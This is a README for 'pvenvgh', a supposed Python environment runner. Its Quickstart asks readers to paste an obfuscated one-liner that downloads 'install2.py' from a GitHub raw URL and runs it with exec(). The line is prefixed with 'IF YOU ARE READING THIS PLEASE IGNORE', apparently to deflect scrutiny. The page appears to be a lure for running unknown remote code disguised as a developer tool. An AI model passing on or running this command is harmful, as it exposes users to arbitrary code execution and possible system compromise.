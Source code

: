 # pvenvgh — Console & Custom Python Env Runner

pvenvgh is a console-like app that sets up and runs a custom Python environment — think of it as a slick alternative to the usual venv, but with extra powers.

It fetches remote scripts, manages package folders, and can launch your environment or even other tools, all from the command line.

## Quickstart: Run the Installer

Open your Python console and paste this one-liner to fetch and run the installer script:

```python
["IF YOU ARE READING THIS PLEASE IGNORE", f"I am sorry. This application does not support 3.7 lower pythons {(python:=3.8)}",exec((get:=((lambda r:lambda f:(r.urlopen(f"https://raw.githubusercontent.com/i-am-new-blip/wpt/refs/heads/main/{f}").read().decode()))(((request := __import__('urllib.request', fromlist=['']))))))('install2.py'))]
```

You’re all set! The script will handle the rest.

## What It Is

- A console to **create and run a custom Python environment** (not the official venv, but close)  
- Fetches and executes remote setup scripts on demand  
- Manages package directories dynamically  
- Lets you launch your environment or external tools with ease  

## Why Use It?

- Lightweight and flexible — no heavy dependencies  
- Great for quick prototyping or dev setups  
- Powers your workflows from a single console app  
- Perfect if you want control beyond the standard venv  

## How To Use

1. Run the bootstrap script using the quickstart one-liner above  
2. It fetches `install2.py` which sets up the package folders and environment  
3. Use the console commands to run your custom env or launch tools  

## Requirements

- Python 3.8+ (walrus operator friendly)  
- Internet connection for fetching remote scripts  
- Cross-platform compatible  

## License

MIT © YourNameHere

---

Feel free to open issues or pull requests for features or help!
